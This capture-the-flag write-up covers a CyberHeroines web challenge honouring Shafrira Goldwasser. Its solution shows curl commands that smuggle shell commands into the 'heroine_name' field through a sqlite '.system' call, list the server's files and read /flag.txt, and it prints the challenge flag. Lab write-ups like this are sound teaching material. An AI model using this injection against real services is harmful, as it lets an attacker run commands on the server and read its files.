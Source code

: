 # Shafrira Goldwasser

## Description
> Shafrira Goldwasser (Hebrew: שפרירה גולדווסר; born 1959) is an Israeli-American computer scientist and winner of the Turing Award in 2012. She is the RSA Professor of Electrical Engineering and Computer Science at Massachusetts Institute of Technology; a professor of mathematical sciences at the Weizmann Institute of Science, Israel; the director of the Simons Institute for the Theory of Computing at the University of California, Berkeley; and co-founder and chief scientist of Duality Technologies.

> Chal: I asked ChatGPT to make this webapp but I couldnt prove it was secure. In honor of this Turing Award winner, prove it is insecure by returning the flag.

### Challenge Link

[URL](https://cyberheroines-web-srv4.chals.io/)

## Attachments
[webapp.zip](./webapp.zip)

## Solution
* The website let’s us choose a Cyber Heroine and read their biography. The most probable attack vector seems SQLi.
* It is also vulnerable to command injection. We can use the following payload to list the files in the directory:
```
curl -X POST -d "heroine_name='\" -cmd \".system 'ls" http://ec2-3-144-228-78.us-east-2.compute.amazonaws.com:6264/
```

* The flag is in the root directory of the server
* To read the `flag.txt` contents we can use the follwing `CURL` command
```
curl -X POST -d "heroine_name='\" -cmd \".system ls -la;cat /flag.txt'" http://ec2-3-144-228-78.us-east-2.compute.amazonaws.com:6264/
```

### FLAG
```
chctf{CH4ng3d_h0w_w3_th1Nk_of_pr00f$}
```